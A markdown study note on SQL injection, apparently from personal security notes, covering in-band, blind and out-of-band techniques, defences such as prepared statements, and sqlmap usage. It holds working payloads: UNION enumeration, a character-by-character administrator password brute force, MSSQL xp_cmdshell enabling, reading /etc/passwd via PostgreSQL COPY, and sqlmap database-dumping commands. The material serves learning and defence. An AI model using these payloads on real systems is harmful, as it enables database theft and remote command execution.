 # SQL Injection
- User supplied data is considered as part of the code/SQL query instead of just being considered as data.

## In-band (Classic) SQLi
- Attacker uses the same communication channel to perform the attack and get the results of the attack.
- Error based: force the db to generate an error to give more info about it Eg: the db version, the db query used, etc.
```
www.random.com/app.php?id='
```
- Union based: use the UNION operater to execute queries of your liking on the db. 
> NOTE: 
> The number of columns selected by both queries should be the same.
> The field types of both queries should be the same.
> The columns in the db should be known for the attacker to craft the UNION query.
```
# Finding the number of fields
# Type 1: Start by injecting NULL and then increase the number of NULLs till the query does not return an error
1337 UNION SELECT NULL; -- -
blabla' UNION SELECT NULL, NULL; -- -

# Type 2: Use ORDER BY: If the number of columns is 2, then at order by 3 it will return an error because the third column does not exist.
1337 ORDER BY 1 -- -
1337 ORDER BY 2 -- -
1337 ORDER BY 3 -- -

# If the SQL error is not visible (no response/empty page and you are not sure if it is blocked or erroring out)
# Use a valid id
1 UNION SELECT NULL; -- -
nybble04' UNION SELECT NULL; -- -

# To find the type of the field, substitute NULL with different data types.
```

### Example:

To find the column names of the people table (see [Try Hack Me Burp Repeater](https://tryhackme.com/module/learn-burp-suite))
```
# This will return only the first row of the output, so you will only see one column name
' UNION SELECT column_name, NULL, NULL, NULL, NULL FROM information_schema.columns WHERE table_name="people"

# To see all rows of the output use group_concat
' UNION SELECT group_concat(column_name), NULL, NULL, NULL, NULL FROM information_schema.columns WHERE table_name="people"
```

## Inferential (Blind) SQLi
- Attacker can't see the actual results of their query, but they can use other inferential parameters
- Boolean: see True/False results.
```
# Send an input that you know is accepted/True
' and 1=1

# Send an input that you know is not accepted/False
' and 1=2

# Observe the behaviour/response of the application for each input.
Eg: True -> "Success" ; False -> "Try again"
```

### Example:
- We can bruteforce the password using SUBSTRING(string, start_index, no_chars_to_extract).
```
' and SUBSTRING((SELECT password from users WHERE username = 'administrator'), 1, 1) ='a'    # check first char is a
' and SUBSTRING((SELECT password from users WHERE username = 'administrator'), 1, 1) ='b'    # check first char is b
                                                    ... ... ...
' and SUBSTRING((SELECT password from users WHERE username = 'administrator'), 2, 1) ='a'    # check second char is a
```
- Time: observe the time taken for query completion.

## Out-of-Band SQLi
- Attacker can't use the same channel and has to use a different network connection to make the attack. Eg: DNS or HTTP request.
> We need to know the type of database.
> We need to know if certain functions are enabled or can be enabled in the database.
- MSSQL [xp_cmdshell RCE](https://medium.com/@alokkumar0200/owning-a-machine-using-xp-cmdshell-via-sql-injection-manual-approach-a380a5e2a340)
```
admin' UNION SELECT 1,2,3,4,5; EXEC sp_configure 'show advanced options', 1-- -
admin' UNION SELECT 1,2,3,4,5; RECONFIGURE-- -
admin' UNION SELECT 1,2,3,4,5; EXEC sp_configure 'xp_cmdshell', 1-- -
admin' UNION SELECT 1,2,3,4,5; RECONFIGURE-- -
```
- PostgreSQL [9.3 RCE using COPY](https://www.exploit-db.com/exploits/50847) , [reading files](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql)
```
CREATE TABLE demo(t text);
COPY demo from '/etc/passwd';
SELECT * FROM demo;
```

## Defences
**Primary Defenses**
1. Prepared statements (Primary - Mandatory)
- Java
```java
String custname = request.getParameter("customerName");
String query = "SELECT account_balance FROM user_data WHERE user_name = ?";
PreparedStatement pstms = connection.prepareStatement (query);
pstms.setString(1, custname);
ResultSet results = pstmt.executeQuery();
```
- PHP
```php
$custname = $_GET["customerName"];
$stmt = $conn->prepare("SELECT account_balance FROM user_data WHERE user_name = ?");
$stmt->bind_param("s", $custname);                                                    # s is the type of the parameters passed
$stmt->execute();
```
2. Stored Procedures (Primary - Secondary)
3. Whitelist input validation: allow only some characters in the field value (Primary - Secondary)
4. Escape user supplied inputs (Primary - Mandatory)

**Additional Defenses (good to have)**
1. Least privilege: Do not run the data as root, run with least privileges (Additional - defence in depth)
2. Disable unnecessary funtions: Prevents OOB attacks (Additional - defence in depth)
3. CIS Benchmark Audits (Additional - defence in depth)
4. Apply db patches (Additional - defence in depth)

## SQL Map
Test if GET param is vulnerable
```
sqlmap –u <URL> -p <injection parameter> [options]
```
Test if POST param is vulnerable
```
Intercept request in Burp
Save raw form of request to a file
sqlmap –r <request file> -p parameter [options]
```

> If the previous two queries find that the target request is vulnerable to SQLi, we can proceed to dump information from the database using the commands below.

Extract db banner
```
sqlmap -u <target> --banner <other options>
```
Extract users
```
sqlmap -u <target> --users <other options>
```
Check if pwned user is an administrator
```
sqlmap -u <target> --is-dba <other options>
```
Extract databases
```
sqlmap -u <target> --dbs <other options>
```
Extract tables
```
sqlmap -u <target> -D <database> --tables <other options>
```
See columns of the table
```
sqlmap -u <target> -D <database> -T <tables, comma separated list> --columns <other options>
```
Get the values of the table columns (dump table)
```
sqlmap -u <target> -D <database> -T <table> -C <columns list> --dump <other options>
```
Test for blind injection
```
sqlmap -u <target> --string <true_string / false_string>
```

**Resources**
1. [Rana Khalil](https://www.youtube.com/watch?v=1nJgupaUPEQ&list=PLuyTk2_mYISLaZC4fVqDuW_hOk0dd5rlf)
2. [Payloads for different databases](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
